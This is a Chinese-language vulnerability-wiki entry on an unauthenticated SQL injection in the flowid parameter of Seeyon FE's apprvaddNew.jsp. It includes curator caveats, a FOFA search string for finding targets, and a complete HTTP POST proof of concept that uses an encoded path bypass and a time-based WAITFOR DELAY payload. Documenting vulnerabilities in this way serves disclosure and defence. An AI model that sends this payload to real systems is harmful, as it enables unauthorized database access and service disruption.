

# 致远FE apprvaddNew.jsp flowid SQL注入

## 条目说明

- 对象与具体问题：致远FE；apprvaddNew.jsp flowid SQL注入
- 版本、配置及部署条件：无版本；SQL Server WAITFOR，编码j%73p路径
- 认证与权限前提：声称无认证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 不同FE端点，与addUser不是同漏洞；需解释路径编码绕过前提
- Content-Length13与body明显不符，HTTP无围栏
- fofa残缺，延迟差分/在野/RCE证据未提供

## 操作风险

命令/代码执行示例可能改变主机状态；延迟探测可能占用数据库连接或影响服务。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

致远互联FE协作办公平台 apprvaddNew.jsp 接口处存在SQL注入漏洞,未经身份验证的攻击者可以通过此漏洞获取数据库敏感信息，深入利用可获取服务器权限。

影响版本

致远互联FE协作办公平台

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 高 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="li_plugins_download"

POC/EXP：

```http
POST /witapprovemanage/apprvaddNew.j%73p HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Content-Length: 13

flowid=1';WAITFOR+DELAY+'0:0:5'--
```

> 请求长度说明：原资料 Content-Length 为 13；保留原始标头；其数值未据实际请求体重新计算或验证。





## 修复方案

1. 关闭互联网暴露面或接口设置访问权限

   升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
